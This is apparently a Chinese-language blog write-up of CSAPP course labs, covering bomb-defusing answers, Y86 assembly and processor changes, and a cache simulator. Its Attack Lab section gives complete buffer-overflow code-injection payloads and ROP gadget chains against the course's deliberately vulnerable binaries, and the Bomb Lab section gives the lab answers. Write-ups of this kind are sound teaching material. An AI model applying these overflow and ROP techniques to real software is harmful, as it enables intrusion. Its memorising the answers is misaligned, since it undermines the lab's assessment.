




# CSAPP Lab WriteUp
<!-- TOC -->

- [CSAPP Lab WriteUp](#csapp-lab-writeup)
  - [简介](#简介)
  - [1. Data Lab](#1-data-lab)
  - [2. Bomb Lab](#2-bomb-lab)
    - [1) phases_1](#1-phases_1)
    - [2) phases_2](#2-phases_2)
    - [3) phases_3](#3-phases_3)
    - [4) phases_4](#4-phases_4)
    - [5) phases_5](#5-phases_5)
    - [6) phases_6](#6-phases_6)
    - [7) secret_phase](#7-secret_phase)
  - [3. Attack Lab](#3-attack-lab)
    - [1) Code Injection](#1-code-injection)
    - [2) ROP](#2-rop)
  - [4. Architecture Lab](#4-architecture-lab)
    - [1) Part A](#1-part-a)
    - [2) Part B](#2-part-b)
    - [3) Part C](#3-part-c)
  - [5. Cache Lab](#5-cache-lab)
    - [1) Part A](#1-part-a-1)
    - [2) Part B](#2-part-b-1)
    - [3) 测试](#3-测试)
  - [6. Shell Lab](#6-shell-lab)
  - [7. Malloc Lab](#7-malloc-lab)
    - [1) 注意点](#1-注意点)
    - [2) 思路](#2-思路)
    - [3) 评分](#3-评分)
  - [8. Proxy Lab](#8-proxy-lab)
    - [1) Part A](#1-part-a-2)
    - [2) Part B](#2-part-b-2)
    - [3) Part C](#3-part-c-1)
    - [4) 测试](#4-测试)

<!-- /TOC -->
## 简介

- 这里会存放一些CSAPP Lab的WriteUp，以及一点心得
- 相关代码存放于 [github](https://github.com/Kiprey/Skr_Learning/tree/master/week9-12/CSAPP-Lab)

## 1. Data Lab

- lab目录下，终端键入`make all`即可编译代码
- 我们所要做的就是实现文件`bits.c`中的每个函数的功能。实现功能时不同函数会有不同的限制，例如不能使用运算符`!`等等。
- 键入`./btest`以测试文件`bits.c`中的函数
- 键入`./dlc bits.c`以检查文件`bits.c`中的函数是否使用了被限制的运算符。如果一切正常，则不输出任何信息。
- 键入`./ishow <intNum>`或`./fshow <floatNum>`以查看传入十六进制的详细信息
- 笔者实现的源码存放于[github](https://github.com/Kiprey/Skr_Learning/blob/master/week9-12/CSAPP-Lab/1.%20Data%20Lab/bits.c)
  > Write Up全部以注释的形式写入代码中，方便阅读与理解

## 2. Bomb Lab

- Bomb Lab是一个类似于拆炸弹的实验，需要我们通过反汇编进行逆向分析，找出各个通关phases
- 阅读`bomb.c`代码，注意到程序可以打开某个文件，并将其作为输入的来源。  
  所以我们可以建立一个文件并将找到的phases存至其中，以避免重复的输入
- 如果对gdb不太熟练，可以查阅[gdb常用命令](/2020/04/gdb_command/)
- 键入`gdb bomb`，在main函数初始位置下断点，并键入`run input.txt`以启动调试。
  > `input.txt`是传给bomb的参数（输入文件的名称）
- 输入phases时，随意输入一个容易辨别的字符串，例如`1122333`
  > 需要注意的是，`read_line`函数会将每一行的最后一个字符（通常是`\n`）替换为`\0`， 如果程序的最后一个字符并非`\n`等无效字符，则phases的最后一个字符会被清除。避免该问题最有效的办法就是将输入文件中的每一行phases末尾增加一个换行符。

### 1) phases_1

单步进入`phase_1`函数。程序会通过`string_no_equal`函数判断输入的字符串是否与特定字符串相等，如果不相等则炸弹爆炸。  
  
由此可得出`phases1`为`Border relations with Canada have never been better.`(勿漏句末*点号*)

### 2) phases_2

`phases_2`函数中，首先会调用`read_six_numbers`函数，从刚刚的一行输入中读取6个数字, 并判断`a == 1 ?`，  
  
> 为了简化说明，我们将输入的6个数分别取名为**a, b, c, d, e, f**。
> 将**a是否等于b**命名为`a = b ?`

之后循环判断  **2 * 当前遍历到的数 == 下一个遍历到的数 ?**  
  
即判断输入的6个数是否是**以2为公比的非零等比数列**，如果所有条件都满足则通过此关卡。由此可得出`phases2`可以是`1 2 4 8 16 32`

### 3) phases_3

`phases_3`函数中，程序会先将读入的一行字符串转化为两个数字（如果转换的数字个数不为2则爆炸）然后判断第一个数`a < 7 ?`。第二个数的值取决于第一个数。如果第二个数与第一个数所指定的常数相等，则通过此关卡。  
  
由此我们可以得到`phases3`： `7 327`（答案不唯一）

### 4) phases_4

`phases_4`函数与`phases_3`函数类似，都会读入两个数字。该函数会执行以下流程

- 判断输入的第一个数字`a`是否小于等于14（注意数字`a`是无符号整数）
- 执行函数`func4(a, 0, 14)`，并判断其返回值是否等于0
- 判断输入的第二个数`b`是否等于0

  
`func4`函数比较特殊，该函数会在内部递归调用自身。通过分析其反汇编代码，得到以下C代码  

  ```cpp
  int func4(int arg0, int arg1, int arg2)
  {
      unsigned int tmp1 = arg2 - arg1;
      // 逻辑右移获取符号位
      int tmp2 = (tmp1 >> 31) + tmp1;
      tmp2 >>= 1; // 算术右移
      int tmp3 = tmp2 + arg1;
      if (tmp3 <= arg0)
      {
          if (tmp3 >= arg0) // 实际上这里就是tmp3 == arg0
              return 0;
          else
              return 2 * func4(arg0, tmp3 + 1, arg2) + 1;
      }
      else
          return 2 * func4(arg0, arg1, tmp3 - 1);
  }
  ```

通过暴力枚举，可以得到`func(x, 0, 14) == 0`的4个解，分别为0, 1, 3, 7。
故，`phases4`可以是`0 0`(答案不唯一)

### 5) phases_5

`phases_5`函数中，程序会  

1. 判断读入的字符串长度是否等于6
2. 循环6次，以`ch & 0xf`为索引，每次在全局字符串**maduiersnfotvbyl**中获取一个字符  
    
3. 待6次循环结束后，将选出的字符串与字符串`flyers`相比较，如果相同，则通过当前关卡

  故根据上面的信息可得，`phases_5`: `ionefg` / `IONEFG` （答案不为一）

### 6) phases_6

函数`phases_6`提高了难度。为了便于说明，我们为输入的6个数字命名为 **a1, a2, a3, a4, a5, a6**。  

- 第一部分是一个嵌套循环。  
    
  为便于理解，将该嵌套循环的汇编代码翻译为如下C代码：

  ```cpp
  // 6个输入的数字
  int inputNum[6];
  int* r13d = inputNum;
  int r12d = 0;
  while(true)
  {
    int* rbp = r13d;
    // 所输入的数必须大于1，小于6
    if(*rbp - 1 <= 5) // 无符号比较
    {
      // 如果遍历完成，则跳出循环
      if(++r12d == 6)
        break;
      int ebx = r12d;
      // 循环检测字符是否相等
      do{
        if(inputNum[ebx] == rbp)
          explode_bomb();
        ebx++;
      }while(ebx <= 5);
      // 指向下一个数组位置
      r13d++;
    }
    else
      explode_bomb();
  }
  ```

  这个代码比较简单，因为它实际上就是遍历检测所输入的6个数是否出现重复，如果存在重复则爆炸。同时还将输入的数字限制在了1-6中(注意其中的数字是 **无符号** 整数)
- 第二部分是一个简单的循环。这个循环将输入的六个数字设置为 `inputNum[i] = 7 - inputNum[i]`  
    
- 第三部分同样是一个循环，为便于说明，将该部分的汇编代码转换为如下的C代码：
  > 为了便于直观，调换了部分代码的顺序，不影响最终结果

  ```cpp
  int rsi = 0
  while(true)
  {
    int ecx = inputNum[rsi];
    if(inputNum[rsi] <= 1)
      // node是链表上的一个结点。该节点由 int与int* 组成
      list[rsi] = &node1;
    else
    {
      int eax = 1;
      int rdx = &node1;
      do{
        rdx = rdx->next;
        eax++;
      }while(eax == ecx);
      // 此时rdx == &node6
      list[rsi] = rdx;
    }
    rsi++;
    if(rsi == 6)
      break;
  }
  ```

  程序遍历之前转换的值，并将其作为索引，来获取链表上特定位置的地址，并将其存入栈中。
- 第四部分还是一个万年不变的循环。  
    
  这个循环会改变原来的链表顺序，并将其设置为栈上链表的顺序。其代码如下

    ```cpp
    rcx = list[0];
    for(int* rax = &list[1]; rax != &list[5]; rax++)
    {
      rcx->address = *rax;
      rcx = *rax;
    }
    rcx->address = NULL;
    ```

- 第五部分是一个校验循环。这个循环会使用新顺序来获取链表上的值并判断其关系，其中链表上的值必须逐级递减，否则炸弹爆炸。  
    
  由于链表上的值顺序为 **node3 > node4 > node5 > node6 > node1 > node2**  
    
  故我们最后终于可以得出`phases6`: `4 3 2 1 6 5`

### 7) secret_phase

- 当6个关卡都通过之后，我们跟进`phase_defused`，发现还有隐藏关卡。
  在进入隐藏关卡前，我们需要先通过两个判断。  
    
  将第一个判断的`sscanf`操作的字符串所在内存输出，可以看出，该字符串是`phases_4`关卡的输入  
  函数参数：  
    
  内部内存的值：  
    
  同时，第二个判断所对比的字符串为  
    
  故我们可以在`phases_4`关卡的输入后追加字符串`DrEvil`来进入隐藏关卡`secret_phase`。
- `secret_phase`关卡中会先读入一个数字`inputNum`，并满足该条件`(inputNum - 1）<= 0x3e8(1000)`, 即输入的数字必须小于等于1001。  
  之后执行函数`fun7(&n1, inputNum)`。当该函数的返回值为2时则通过此关卡。
  全局变量`n1`是一个树节点，其所有相关的树节点如下所示  
    
  为便于理解，将函数`fun7`的汇编代码转为C代码：

    ```cpp
    int fun7(treeNode* node, int num)
    {
      if(node == NULL)
        return -1;
      else
      {
        if(node->val <= num)
        {
          if(node->Val == num)
            return 0;
          else
            return 2 * fun7(node->right, num) + 1;
        }
        else
          return 2 * fun7(node->left, num);
      }
    }
    ```
  
  易知，若需`fun7(&n1, inputNum) == 2`, 则要进行如下操作
  - 调用**fun7(&n1, inputNum)**。此时 **n1.val == 0x24**
  - 递归向下调用**fun7(arg.left, inputNum)**, 此时 **arg.val == 0x8**
  - 再次递归向下调用**fun7(newArg.right, inputNum)**, 此时 **newArg.val == 0x16 == 22**
  - 在这最后调用的 **fun7(newArg.right, inputNum)** 中返回0
  综上所述，本次输入的数字应为`22`
- 最后的输入文本为
  
  ```text
  Border relations with Canada have never been better.
  1 2 4 8 16 32
  7 327
  0 0 DrEvil
  ionefg
  4 3 2 1 6 5
  22
  ```

  通关截图  
    
  
## 3. Attack Lab

- Attack Lab要求进行五次的攻击实验，其中所使用的攻击方式是**代码注入**和**ROP**

### 1) Code Injection

- `ctarget`文件：该文件用于代码注入实验。
- 在代码注入实验中，通过使缓冲区溢出、注入攻击代码来完成特殊目的。
- 在`stable_stable_launch`函数中有个很有意思的操作。程序会mmap出一块RWX的内存，并将栈指针迁移到这块固定地址的内存上。这一步方便了后续的代码执行操作，否则原始栈上数据是不可执行的(NX)  
    
- 代码注入脆弱点位于`getbuf`函数中，该函数会调用`gets`函数，这可能会造成溢出。  
  在该函数中，字符串所存入的地址为`0x5561dc78`，当前函数的返回地址存储于`0x5561dca0`，其相对偏移为`40`  
    
- **phase1**
  - 该关卡只要求将程序的控制流返回至`touch1`函数中即可，其中该函数的地址为`0x4017c0`  
  - 这里需要利用栈溢出来修改栈上的**函数返回地址**
  - 故最终的输入文件如下
    > 注意文件中的`00`不可省略，因为这是函数地址的一部分（64位中指针大小为8字节）
    > 注意**小端序**

      ```text
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      c0 17 40 00 00 00 00 00
      ```

    通过当前关卡的截图如下

      

- **phase2**
  - `touch2`函数与`touch1`不太一样，它多了一项寄存器的比较。只有当`%edx == <cookie>`时才能通过当前关卡。  
      
  - 此时我们就需要在栈上布下代码，使控制流在`getBuf`函数返回时**跳转至栈上的代码**，**修改%edx寄存器**并最终**跳转回`touch2`函数**。这部分代码为
    > `touch2`函数的地址为`0x4017ec`

      ```s
      movq $0x59b997fa, %rdi # 0x59b997fa是个人cookie
      push $0x4017ec
      ret
      ```

    之后执行以下指令，将其编译为机器码并显示详细信息。

      ```bash
      gcc -c asm.s -o asm.o && objdump -d asm.o
      ```

      

  - 最后我们的输入数据如下

      ```text
      48 c7 c7 fa 97 b9 59 68
      ec 17 40 00 c3 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      78 dc 61 55 00 00 00 00  
      ```

    通过当前关卡的截图如下  
      
- **phase3**
  - `touch3`函数与`touch2`函数类似，都存在着一个比较的判断，通过该判断即可通过当前关卡。  
    所不同的是，`touch3`函数中使用另一个函数`hexmatch`进行判断。`hexmatch`传入的参数分别为`&cookie`与`touch3`的第一个参数`%rdi`。  
      
  - 分析`hexmatch`函数，可以发现，当栈溢出时刻的`%rdi == 0x5561dc13`时，即可通过当前关卡。  
      
  - 由于该关卡修改的寄存器与第二关的寄存器一致，所以可以直接修改第二关的输入数据，即可得到当前关卡的输入数据。

    ```text
    48 c7 c7 13 dc 61 55 68
    fa 18 40 00 c3 31 31 31
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31
    78 dc 61 55 00 00 00 00
    ```

      
  - **注意!** 这个解实际上是 **非预期解** 。按照正常的逻辑，用于存放cookie字符串的内存地址应该是随机的。

      ```cpp
      /* Compare string to hex represention of unsigned value */
      int hexmatch(unsigned val, char *sval)
      {
        char cbuf[110];
        /* Make position of check string unpredictable */
        char *s = cbuf + random() % 100;
        sprintf(s, "%.8x", val);
        return strncmp(sval, s, 9) == 0;
      }
      ```

    但由于程序内部并没有初始化随机数种子，所以生成的随机数始终是固定的，进而导致用于存放cookie字符串的内存地址一直是同一个地址。

### 2) ROP

- `rtarget`文件： 该文件用于ROP实验
- 该文件使用了**栈随机化(ASLR)** 与 **栈不可执行(NX)** 这两项技术来防止代码注入攻击，所以我们要使用 **ROP** 攻击来完成特定目的。
- `gets`输入点与函数返回地址存放位置之间的相对偏移仍是`40`。
- 下面是一张汇编与机器表示相关的表格  
    
- **phase4**
  - 使用`objdump -S rtarget > rtarget.s`指令将`rtarget`文件中的反汇编输出
    > 这里只截取了ROP可能会用到的部分汇编

      ```cpp
      00000000004019a7 <addval_219>:
        4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
        4019ad: c3                    retq  

      00000000004019a0 <addval_273>:
        4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
        4019a6: c3                    retq
      ```

    - 注意到函数`addval_219`中存在字节序列`58 90 c3`。其中`58`是`popq %rax`的机器表示，`90`是`nop`的机器表示，`c3`是`ret`的机器表示。这样的一小段字节序列可以用来将数据从栈上弹到寄存器`%rax`中。

      ```cpp
      4019ab: 58                    popq %rax
      4019ac: 90                    nop
      4019ad: c3                    retq
      ```

    - 同时，函数`addval_273`中存在字节序列`48 89 c7 c3`。其中`48 89 c7`就是`movq %rax, %rdi`的机器表示，`c3`是`ret`的机器表示。所以我们可以利用这个gadget将`%rax`中的数据拷贝到`%rdi`中

      ```cpp
      4019a2: 48 89 c7              movq %rax, %rdi
      4019a5: c3                    retq
      ```

    - 上述的两条`popq rax`与`movq %rax, %rdi` 之间的配合，间接构成了一条`popq %rdi`指令，这样我们就可以设置寄存器`%rdi`，完成目的。实际效果如下：  
        

  - 综上所述，我们需要完成
    - 栈溢出跳转至`popq %rax`
    - 跳转至`movq %rax, %rdi`
    - 跳转至`touch2`函数（地址为`0x4017ec`）

    最终输入的数据如下

      ```text
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      ab 19 40 00 00 00 00 00
      fa 97 b9 59 00 00 00 00
      a2 19 40 00 00 00 00 00
      ec 17 40 00 00 00 00 00
      ```

    过关截图  
        
- **phase5**
  - 在这一关中，主要会用到如下几个函数

      ```cpp
      0000000000401a03 <addval_190>:
        401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
        401a09: c3                    retq
      00000000004019d6 <add_xy>:
        4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
        4019da: c3                    retq
      00000000004019a0 <addval_273>:
        4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
        4019a6: c3                    retq
      ```

    其中分别提取出可利用的gadgets

      ```cpp
      401a06: 48 89 e0              movq %rsp, %rax
      401a09: c3                    retq

      4019d8: 04 37                 add 0x37, %al
      4019da: c3                    retq

      4019a2: 48 89 c7              movq %rax, %rdi
      4019a5: c3                    retq
      ```

    这些gadgets组合起来，可以获得指定偏移量的栈地址。如果将cookie字符串写入至此地址上，则可以达到 **%rdi指向cookie字符串** 这个目的，这样便可以通过当前关卡。

    使用效果如下  
        
  - 最后的输入数据如下
    > 注意第13行只有7个字节，并非笔者的疏忽

    ```text
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31
    06 1a 40 00 00 00 00 00
    d8 19 40 00 00 00 00 00
    a2 19 40 00 00 00 00 00
    fa 18 40 00 00 00 00 00
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31
    35 39 62 39 39 37 66 61
    ```

    过关截图  
        

## 4. Architecture Lab

### 1) Part A

- 这部分内容的工作目录为`arch-lab/sim/misc`
- 在part A中，我们要分别用`Y86`汇编（注意不是`x86`）来手动编写位于`example.c`中的三个函数，以熟悉`Y86`的基本语法。该部分实现较为简单，依照CSAPP上的代码照葫芦画瓢即可。
- 其中，编译与运行`Y86`指令的shell脚本如下

    ```bash
    #!/bin/bash
    ./yas $*.ys && ./yis $*.yo
    ```

  执行效果如图所示  
      

- `sum_list`函数的`Y86`汇编 - [github](https://github.com/Kiprey/Skr_Learning/blob/master/week9-12/CSAPP-Lab/4.%20Arch%20Lab/part%20A/sum.ys)
- `rsum_list`函数的`Y86`汇编 - [github](https://github.com/Kiprey/Skr_Learning/blob/master/week9-12/CSAPP-Lab/4.%20Arch%20Lab/part%20A/rsum.ys)
  > 注意递归调用函数时，需保存特定的寄存器到栈上，以便调用者使用。
- `copy_block`函数的`Y86`汇编 - [github](https://github.com/Kiprey/Skr_Learning/blob/master/week9-12/CSAPP-Lab/4.%20Arch%20Lab/part%20A/copy.ys)

### 2) Part B

- 该部分内容主要是为SEQ处理器添加指令`iaddq`，所要修改的文件为`seq-full.hcl`，其工作目录为`arch-lab/sim/seq`
- 由于`iaddq`指令既与运算操作相关，又与立即数处理相关，故该指令的功能添加可以参考`seq-full.hcl`中的`IOPQ`以及`IIRMOVQ`来编写。  
  以下摘抄了修改过的内容，完整内容请进入[github](https://github.com/Kiprey/Skr_Learning/blob/master/week9-12/CSAPP-Lab/4.%20Arch%20Lab/part%20B/seq-full.hcl)，所有更改均以中文注释的形式写入其中。
  > 注：编写HCL时，使用汇编高亮是个不错的选择。
  
    ```s
    # Instruction code for iaddq instruction
    wordsig IIADDQ  'I_IADDQ'

    # 将IIADDQ指令加入到合法指令集合中
    bool instr_valid = icode in
    { INOP, IHALT, IRRMOVQ, IIRMOVQ, IRMMOVQ, IMRMOVQ,
            IOPQ, IJXX, ICALL, IRET, IPUSHQ, IPOPQ, IIADDQ };

    # IIADDQ指令 需要读入一个寄存器，因此要额外读取一个字节，故添加到该集合中
    bool need_regids =
      icode in { IRRMOVQ, IOPQ, IPUSHQ, IPOPQ,
            IIRMOVQ, IRMMOVQ, IMRMOVQ, IIADDQ  };

    # IIADDQ指令 需要读入一个常数，因此添加到该集合中
    bool need_valC =
      icode in { IIRMOVQ, IRMMOVQ, IMRMOVQ, IJXX, ICALL, IIADDQ };

    ## IIADDQ需要读取右寄存器的值，因此加入到该集合中
    word srcB = [
      icode in { IOPQ, IRMMOVQ, IMRMOVQ, IIADDQ  } : rB;
      icode in { IPUSHQ, IPOPQ, ICALL, IRET } : RRSP;
      1 : RNONE;  # Don't need register
    ];

    # 这里设置将结果写入IIADDQ指令的右寄存器中中
    word dstE = [
      icode in { IRRMOVQ } && Cnd : rB;
      icode in { IIRMOVQ, IOPQ, IIADDQ} : rB;
      icode in { IPUSHQ, IPOPQ, ICALL, IRET } : RRSP;
      1 : RNONE;  # Don't write any register
    ];

    # IIADDQ 指令的左操作数为读入的常数项
    word aluA = [
      icode in { IRRMOVQ, IOPQ } : valA;
      icode in { IIRMOVQ, IRMMOVQ, IMRMOVQ, IIADDQ } : valC;
      icode in { ICALL, IPUSHQ } : -8;
      icode in { IRET, IPOPQ } : 8;
      # Other instructions don't need ALU
    ];

    # IIADDQ 指令的左操作数为读入的寄存器rB
    word aluB = [
      icode in { IRMMOVQ, IMRMOVQ, IOPQ, ICALL,
              IPUSHQ, IRET, IPOPQ, IIADDQ } : valB;
        # 一个很有意思的点：将立即数存到特定寄存器的操作，就是先运算立即数 + 0，再将结果存入寄存器
      icode in { IRRMOVQ, IIRMOVQ } : 0;
      # Other instructions don't need ALU
    ];

    # IIADDQ可能需要设置条件位，与IOPQ类似
    bool set_cc = icode in { IOPQ, IIADDQ };
    ```

- 当指令添加完成后，执行以下操作

    ```bash
    # 生成新的SEQ模拟器。如果make失败，可能需要修改makefile
    make clean && make VERSION=full
    # 可选操作，使用一个简单的例子测试iaddq指令
    ./ssim -t ../y86-code/asumi.yo
    # 可选操作，如果需要debug，则可以使用GUI形式的ssim来单步调试
    ./ssim -g ../y86-code/asumi.yo
    # 可选操作，使用微型测试集来测试除iaddq指令以外的其他指令。
    # 这部分的目的主要有两点
    #   1. 判断测试工具是否正常运行
    #   2. 判断原先指令是否被用户无意间破坏
    (cd ../y86-code; make testssim)
    # 可选操作，使用大量测试集来测试除iaddq指令以外的其他指令
    (cd ../ptest; make SIM=../seq/ssim)
    # 使用大量测试集来测试iaddq指令
    (cd ../ptest; make SIM=../seq/ssim TFLAGS=-i)
    ```
  
  `iaddq`指令测试成功的截图如下  
    

- 编译过程中可能会出现一些错误，例如未找到头文件`tk.h`、某个结构体中没有成员`result`、程序链接失败等等。其解决方法如下：
  - 首先在执行`make`前，需要修改`makefile`中的部分内容

    ```makefile
    # 初始情况下 VERSION为std，如果只想生成full版本的ssim，可以直接修改VERSION
    VERSION=full
    # GUIMODE情况下需要添加 -DUSE_INTERP_RESULT， 原因是tk中的某个结构体的某个成员已被弃用，
    # 如需使用则必须添加宏定义USE_INTERP_RESULT
    GUIMODE=-DHAS_GUI -DUSE_INTERP_RESULT
    # 修改使用的tk tcl版本，在每个参数后添加版本号。i.e. -ltk  =>  -ltk8.6
    TKLIBS=-L/usr/lib -ltk8.6 -ltcl8.6
    TKINC=-isystem /usr/include/tcl8.6

    # ......
    ```

  - 其次，将`ssim.c`文件中的第844、845行注释掉即可

    ```cpp
    /* 第837行 */   #ifdef HAS_GUI
                    /* ... */
    /* 第844行 */   //extern int matherr();
    /* 第845行 */   //int *tclDummyMathPtr = (int *) matherr;

    ```

### 3) Part C

- 在当前部分中，我们需要修改`ncopy.ys`与`pipe-full.hcl`，以获得更高的执行效率
- 当代码修改完成后，执行以下命令

    ```bash
    #! /bin/sh
    #   1. make用于生成测试用例与seq模拟器，-s 安静模式
    #   2. correctness.pl使用更高级别的测试来测试ncopy.ys的正确性
    #   3. ./benchmark.pl为运行速度评分
    #   4. 最后判断ncopy的y86汇编文件大小是否不超过1k bytes（超过1k字节则ncopy.ys不合格）
    make VERSION=full -s && ./correctness.pl && ./benchmark.pl && ../misc/yas ncopy.ys && ./check-len.pl < ncopy.yo
    ```

- 笔者所做的优化
  - 在`pipe-full.hcl`中实现`iaddq`指令，并替换`ncopy.ys`中所有可被`iaddq`替代的指令（包括其中一个操作数为立即数的`sub`指令）。
    > 此时CPE等于12.70
  - 将循环展开成`13、5、1`层数的三个不同循环。同时将 **读取** 与 **存储** 指令分开，减少 **气泡**(bubble)的插入或流水线的暂停。
    > 此时CPE等于8.84，分数为33.1/60.0
  - 由于笔者只是简单的将循环展开，并没有推敲更深层次的优化。故最终分数为33.1

- `pipe-full.hcl`由于其添加流程与part B类似，故不再赘述，代码存于[github](https://github.com/Kiprey/Skr_Learning/blob/master/week9-12/CSAPP-Lab/4.%20Arch%20Lab/part%20C/pipe-full.hcl)。  
  `ncopy.ys`代码篇幅较大，存于[github](https://github.com/Kiprey/Skr_Learning/blob/master/week9-12/CSAPP-Lab/4.%20Arch%20Lab/part%20C/ncopy.ys)中

## 5. Cache Lab

### 1) Part A

- 在Part A中，我们需要仿造`csim-ref`，编写一个cache模拟器，该模拟器可以模拟在一系列的数据访问中cache的命中、不命中与牺牲行的情况，其中，需要牺牲行时，用LRU替换策略进行替换。
- 偷了个小懒，直接把csim-ref逆向出了源代码 - [github](https://github.com/Kiprey/Skr_Learning/blob/master/week9-12/CSAPP-Lab/5.%20Cache%20Lab/csim.c)
- Cache主体的数据结构如下
  
  ```cpp
  typedef long long unsigned mem_addr_t;
  struct cache_line_t{
      mem_addr_t tag;
      int valid;
      unsigned int lru; 
  };
  typedef struct cache_line_t* cache_set_t;
  typedef cache_set_t* cache_t;

  cache_t cache;
  ```

- 每次获取数据时，都需要修改该数据中的LRU。同时，如果该数据并没有存放于Cache中，则需要根据LRU来驱逐某条Cache_line。

  ```cpp
  void accessData(mem_addr_t addr)
  {
    int eviction_line;
    // 注意是无符号整数
    unsigned int eviction_lru = -1;
    eviction_line = 0;
    mem_addr_t tag = addr >> (s + b);
    cache_set_t cache_set = cache[(addr >> b) & set_index_mask];

    // 所需数据的cache_line编号
    int i;
    for (i = 0; ; ++i )
    {
      // 如果把所有的cache_line全遍历完了还找不到所需的数据
      if ( i >= E )
      {
        // 数据未命中
        ++miss_count;
        if ( verbosity )
          printf("miss ");
        // 在一组cache_line中查找将被删除的cache_line
        for (int ia = 0; ia < E; ++ia )
        {
          if ( cache_set[ia].lru < eviction_lru )
          {
            eviction_line = ia;
            eviction_lru = cache_set[ia].lru;
          }
      }
        // 如果当前这个要被删除的cache_line是valid
        // 即，这个要被替换数据的cache_line是一条之前读入的数据而不是空行
        if ( cache_set[eviction_line].valid )
        {
          // 删除数+1
          ++eviction_count;
          if ( verbosity )
            printf("eviction ");
        }
        // 模拟读入并覆盖数据到这个刚刚被删除（或本来是空行）的cache_line里
        cache_set[eviction_line].valid = 1;
        cache_set[eviction_line].tag = tag;
        cache_set[eviction_line].lru = lru_counter++;
        return;
      }
      // 查找cache中的数据
      if ( cache_set[i].tag == tag && cache_set[i].valid )
        break;
    }
    // 如果找到数据了，自然就hit_count++
    ++hit_count;
    if ( verbosity )
      printf("hit ");
    cache_set[i].lru = lru_counter++;
  }
  ```

### 2) Part B

- 在Part B中，我们需要编写一个实现矩阵转置的函数，并且使函数调用过程中对cache的不命中数miss尽可能少
- 测试程序所使用的cache模拟器的参数为`-S 5 -E 1 -B 5`。即该cache为内含32个缓存行的*直接映射高速缓存*，其中每个缓存行可以存放32位数据，即8个int型数据。
- 由刚刚计算出的cache规模可知，该cache最多可读入32x32矩阵中的8行数据。故我们可将32x32矩阵以每块8x8的大小分割并转置存放到另一个矩阵中，这样便可以减小cache的miss数，拿到满分。
- 同理，该cache最多可读入64x64矩阵的4行数据。故分割64x64矩阵为数个4x4大小的矩阵并转置处理，会较大的降低miss数量。
